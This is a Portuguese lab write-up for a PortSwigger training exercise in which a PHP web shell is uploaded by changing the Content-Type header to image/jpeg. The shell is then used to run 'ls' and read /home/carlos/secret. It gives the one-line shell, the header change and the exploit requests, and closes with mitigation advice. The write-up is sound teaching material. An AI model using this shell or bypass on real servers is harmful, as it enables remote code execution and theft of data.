


> 🌐 [English](LAB-02.md) | **Português**

# LAB: Web shell upload via Content-Type restriction bypass

**Módulo:** Server-side vulnerabilities //
**Dificuldade:** Apprentice //
**Categoria:** File upload vulnerabilities //
**Status:** Resolvida //

## Objetivo

Este laboratório possui uma funcionalidade de upload de imagens que tenta impedir o envio de arquivos potencialmente perigosos. Entretanto, essa proteção depende exclusivamente do valor informado no cabeçalho **Content-Type**, controlado pelo próprio usuário.

Para resolver o laboratório, era necessário realizar o upload de um web shell em PHP, contornar a validação do upload manipulando o cabeçalho da requisição e executar comandos no servidor para obter o conteúdo do arquivo `/home/carlos/secret`.

Foi utilizada a conta fornecida pelo próprio exercício:

```
Usuário: wiener
Senha: peter
```

## Reconhecimento

Inicialmente foi criado um arquivo chamado `shell.php` contendo um web shell simples em PHP:

```php
<?php system($_GET['cmd']); ?>
```

Ao tentar enviar esse arquivo normalmente através da funcionalidade de upload, a aplicação rejeitou o envio.

Interceptando a requisição **POST** utilizando o Burp Suite, foi possível observar que o servidor utilizava o cabeçalho **Content-Type** para validar o tipo do arquivo enviado.

Como esse cabeçalho é completamente controlado pelo cliente, surgiu a hipótese de que seria possível contornar essa validação alterando apenas seu valor, permitindo o envio de um arquivo PHP disfarçado como imagem.

Após o upload, o servidor armazenava o arquivo em um diretório acessível publicamente (`/files/avatars/`), permitindo sua execução diretamente pelo navegador.

## Abordagem

- Criamos um arquivo chamado `shell.php` contendo um web shell básico em PHP.
- Tentamos realizar o upload normalmente e a aplicação bloqueou o envio.
- Interceptamos a requisição **POST** utilizando o Burp Suite.
- Encaminhamos a requisição para o Repeater.
- Identificamos que o arquivo estava sendo enviado com o cabeçalho:

```http
Content-Type: application/x-php
```

- Alteramos esse cabeçalho para:

```http
Content-Type: image/jpeg
```

- Reenviamos a requisição.
- O servidor aceitou o upload do arquivo PHP.
- Em seguida, acessamos o arquivo enviado através da URL:

```
/files/avatars/shell.php
```

- Como o servidor interpretava arquivos PHP, o web shell foi executado.
- Utilizamos o parâmetro `cmd` para executar comandos diretamente no sistema operacional.
- Inicialmente executamos:

```
?cmd=ls
```

para confirmar que o web shell estava funcionando.

- Após confirmar a execução remota de comandos, executamos:

```
?cmd=cat+/home/carlos/secret
```

- O servidor retornou o conteúdo do arquivo contendo o segredo do laboratório.
- O segredo foi enviado utilizando o botão disponibilizado pela própria plataforma, concluindo o exercício.

## Payload / Técnica utilizada

### Web Shell enviado

```php
<?php system($_GET['cmd']); ?>
```

### Cabeçalho original

```http
Content-Type: application/x-php
```

### Cabeçalho modificado

```http
Content-Type: image/jpeg
```

### Teste da execução remota

```http
GET /files/avatars/shell.php?cmd=ls HTTP/1.1
```

### Extração da flag

```http
GET /files/avatars/shell.php?cmd=cat+/home/carlos/secret HTTP/1.1
```

## Evidência





## Resultado

A exploração confirmou que a validação do upload dependia exclusivamente do cabeçalho **Content-Type**, permitindo que um arquivo PHP fosse enviado ao servidor apenas alterando esse valor para um tipo permitido.

Como o diretório de upload permitia a execução de scripts PHP, foi possível obter **Remote Code Execution (RCE)**, executar comandos arbitrários no sistema operacional e acessar o conteúdo do arquivo `/home/carlos/secret`, suficiente para concluir o laboratório.

## Observações técnicas

### Por que a falha ocorre?

Este laboratório apresenta duas falhas distintas que, quando combinadas, resultam em execução remota de código.

#### 1. Validação insegura do Content-Type

A aplicação verifica apenas o cabeçalho `Content-Type` enviado pelo cliente para decidir se um arquivo pode ou não ser enviado.

Como esse cabeçalho pode ser alterado livremente pelo usuário, um atacante consegue enviar um arquivo PHP informando falsamente que se trata de uma imagem (`image/jpeg`), contornando completamente a proteção implementada.

#### 2. Execução de arquivos enviados

Após o upload, o servidor armazena os arquivos em um diretório público onde scripts PHP são interpretados normalmente.

Isso permite que o arquivo enviado seja executado diretamente através de sua URL, transformando o upload em uma vulnerabilidade de **Remote Code Execution (RCE)**.

### Como mitigar?

- Nunca confiar no cabeçalho **Content-Type** enviado pelo cliente.
- Validar a extensão do arquivo e seu conteúdo utilizando *magic bytes*.
- Utilizar uma lista de permissões (*allowlist*) para tipos de arquivos aceitos.
- Armazenar uploads fora da raiz pública da aplicação.
- Configurar o servidor para impedir a execução de scripts em diretórios destinados a uploads.
- Renomear os arquivos enviados utilizando nomes aleatórios.
- Aplicar controles de autenticação e autorização para acesso aos arquivos enviados.

## Referências

- [PortSwigger Web Security Academy](https://portswigger.net/web-security/file-upload) (link para o tópico, não para a lab específica com solução)
- OWASP Web Security Testing Guide - File Upload Testing
- CWE-434 - Unrestricted Upload of File with Dangerous Type
